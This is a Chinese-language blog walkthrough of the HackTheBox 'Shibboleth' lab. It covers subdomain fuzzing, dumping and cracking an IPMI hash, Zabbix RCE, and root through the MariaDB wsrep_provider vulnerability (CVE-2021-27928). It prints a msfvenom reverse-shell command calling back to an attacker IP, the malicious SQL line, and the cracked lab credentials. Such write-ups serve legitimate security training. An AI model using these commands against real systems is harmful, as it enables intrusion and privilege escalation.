 ```yaml
---
title: Shibboleth
date: 2022-01-13 17:37:59
tags: HackThebox
categories: 中间件
---
```


## 信息收集
只做一个简单的扫描，发现只开放了web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/97c60e806c6d413eb3524efdf5cbdb9c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/19faecaea42a449ba7cf1bc2244db896.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
fuzz了一下路径，并没有发现任何有价值的路径信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/7d1c7ad510a74a089d925f6c3b674ead.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们将思路转换到子域名挖掘上，发现了三个子域，我们将它们逐一访问的时候发现都同时指向同一个登录页面

```bash
wfuzz -c -u "http://shibboleth.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 26 -H "HOST:FUZZ.shibboleth.htb"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/520287b9831e4eafa7e8f56cb80b2463.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5cd36cb1f22d4ffc97f718b00a6170eb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 漏洞利用
我们对这个表单进行SQL注入漏洞的检测时，并没有发现存在注入，也没有发现对应的中间件漏洞，到这里我的思路断了。我在反思它是个靶场肯定是有漏洞点的，可能是我信息收集那块做得不够细致。因此我对靶场进行UDP端口的扫描，查看是否存在漏扫的地方。扫描时发现开放了623端口的asf-rmcp服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d6296236bc149bb9e96a7c0219733f9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

在搜索引擎上搜索时，发现了对应的漏洞利用复现。漏洞利用的方式是使用MSF框架的对应模块进行漏洞的检测
![在这里插入图片描述](https://img-blog.csdnimg.cn/c1bceb8bee654c4d82f8bd3ecd59c2a9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/53abaaec2bdc4593a1cc5de0b865f47e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
设置好对应的参数后，发现IPMI的版本是2.0
![在这里插入图片描述](https://img-blog.csdnimg.cn/5430d56678624006bcb42e414ff0a16e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们可以尝试使用下载哈希的模块，尝试能否将用户对应的hash值下载下来。我们发现对应的管理员的哈希值，我们可以将哈希值保存下来，使用hashcat进行密码破解，因为对应的加密方式是IPMI，因此我们可以筛选一下![在这里插入图片描述](https://img-blog.csdnimg.cn/8ddb20fb646844cb8c2c59c9be1da693.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
对应的编号是7300，解密出来的密码是`ilovepumkinpie1`。

```bash
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9d0ed66d101f41c593497ac9adc49a27.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/8bba274825dc42cba553281a16464f09.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们可以拿这个账号密码登录进zabbix的管理员页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/85d21ce1938d44168a00a9fbfc97ee33.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
查阅对应的漏洞复现文章发现，在Configuration的hosts处，可以添加对应的脚本，实现RCE漏洞的执行
![在这里插入图片描述](https://img-blog.csdnimg.cn/aa4967975c894ae188bd13955e787130.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/99a13f40d5a6484dac50075d8cf77c10.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/b9ceff97b59546599dedd240624fca25.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在key处添加我们要执行的RCE代码内容，点击添加并执行，期间我们开启对应的监听端口，可以反弹一个shell到本地终端上
![在这里插入图片描述](https://img-blog.csdnimg.cn/89a3911aa36b420887970de69515048e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c0622899df61434e924f6d2b2b2ab3b2.png)
## 提权
我们确实是获得了一个终端，但是并没有权限查看到user.txt的内容，我们得想办法提权到ipmi-svc这个账户的权限上
![在这里插入图片描述](https://img-blog.csdnimg.cn/b4b5288c956948ba9dd4b917f5396c02.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们下意识可以尝试，使用Administrator账户的密码看看是否能成功。令人很意外的是，居然成功了
![在这里插入图片描述](https://img-blog.csdnimg.cn/586fc07ad39344f8858fd00d7dbdb3d1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那下一步就是拿取root权限了，我上传了个linpeas.sh脚本到目标主机上进行检查，但是并没有发现任何有价值的信息。但是我们查看本地的端口时，发现开放了mysql服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/1cabb3c6e28b43f5a42c5b3bb9d2e9c8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们进入到zabbix的目录上，筛选信息发现了数据库的密码为`bloooarskybluh`，用户名为`zabbix`
![在这里插入图片描述](https://img-blog.csdnimg.cn/2423387ead4747a28f952d7b47bab881.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c46ad8d982584668af369bfe0217eb1c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试登录到数据库上，数据库的版本为`10.3.25`
![在这里插入图片描述](https://img-blog.csdnimg.cn/c99b6814e5f94d5796ef64db705d2fe9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我尝试过搜寻数据库中对应账户的密码进行解密，但是都无功而返。切换一种思路，我搜寻到了mysql对应版本的漏洞信息。文章中说明了这个版本的mysql存在RCE漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/88dd5b53214b46a1b29cf0f8250eadfd.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我在github上找到一个漏洞利用的脚本，这是链接[https://github.com/Al1ex/CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928)
![在这里插入图片描述](https://img-blog.csdnimg.cn/11fbc233c5ad4caa848e064466e57189.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
根据提示来，我们先生成一个对应的payload，再开启监听反弹一个root的shell到本地上

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.30 LPORT=4445 -f elf-so -o payload.so
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ba5f1d4ea3274eadaa72fd212301296f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
然后把payload文件上传到目标主机上
![在这里插入图片描述](https://img-blog.csdnimg.cn/d37c053a543346549047aa87a86b4409.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
最后登录到mysql里，执行这么一段指令`SET GLOBAL wsrep_provider="/tmp/payload.so";`，获得root权限
![在这里插入图片描述](https://img-blog.csdnimg.cn/cab9ce62d2c54b2d8ef5236665166e5d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 总结
这个靶机还是相当出色的，首先一般的扫描只能扫描到80的web服务，因为web服务最多就只能发掘到子域的登录表单上，之后就断思路了。所以还得扫描UDP的端口，这个就不是特别多人能够想得到，进行登录操作后，又得考验对zabbix的RCE漏洞利用，这个要求也比较高，然后再到root的提权上，很充分地考查了对中间件安全的知识，总体来说这是一个相当出色的靶机。
